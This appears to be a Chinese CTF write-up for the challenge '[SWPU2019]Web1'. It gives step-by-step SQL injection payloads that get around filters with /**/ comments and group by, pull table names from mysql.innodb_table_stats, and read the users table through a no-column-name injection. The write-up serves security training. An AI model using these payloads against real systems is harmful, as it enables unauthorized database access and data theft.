 ```yaml
---
title: '[SWPU2019]Web1'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-07-20 21:18:07
authorLink:
tags: 无列名注入
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1086791.jpg
---
```

广告版处存在注入，

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ图片20200720221323.png)

先fuzz测试一波：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ图片20200720221548.png)

过滤的东西不多。
接下来先爆列数
order被过滤，还可以用group by
1'/**/group/**/by/**/22,'1

一共有二十二列。。。
or被过滤，information_schema不能使用，这里要用到无列名注入。
-1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
回显位是2，3.
查数据库
-1'union/**/select/**/1,version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
发现是马里奥数据库
百度搜到了这个可以利用的：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/qqqqqqqqq.png)

查表
-1'union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200720233720.png)

无列名注入

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/32131231.png)

设第二列别名为b
-1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2/**/as/**/b,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200720234508.png)

设第三列别名为b
-1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200720234807.png)
